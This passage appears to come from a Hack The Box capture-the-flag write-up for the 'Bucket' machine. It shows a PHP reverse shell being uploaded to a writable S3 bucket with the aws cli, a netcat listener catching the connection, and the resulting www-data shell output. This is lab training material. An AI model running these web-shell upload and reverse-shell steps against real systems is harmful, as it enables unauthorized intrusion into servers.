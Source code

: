 #### Uploading a Web Shell

So, the command to upload a shell is simply:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ aws s3 cp phprs.php s3://adserver/ --endpoint-url http://s3.bucket.htb 
upload: ./phprs.php to s3://adserver/phprs.php
```

Then we execute the shell by starting a netcat listener and visiting the URL:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.65] from (UNKNOWN) [10.10.10.212] 42766
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:58:18 up  4:38,  0 users,  load average: 0.12, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

This can be a bit temperamental - sometimes requesting the shell at `http://bucket.htb/phprs.php` returns a 404 status code. However, you just need to keep trying until it works. To check your shell has actually uploaded, you can use `s3 ls`, and copy and paste the filename just to be sure:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ aws s3 ls adserver --endpoint-url http://s3.bucket.htb
                           PRE images/
2021-04-29 09:57:04       5344 index.html
2021-04-29 09:57:47       5492 phprs.php
```

# Shell as www-data

We managed to pop our shell from the bucket, and can see we are the `www-data` user:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.65] from (UNKNOWN) [10.10.10.212] 42766
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:58:18 up  4:38,  0 users,  load average: 0.12, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
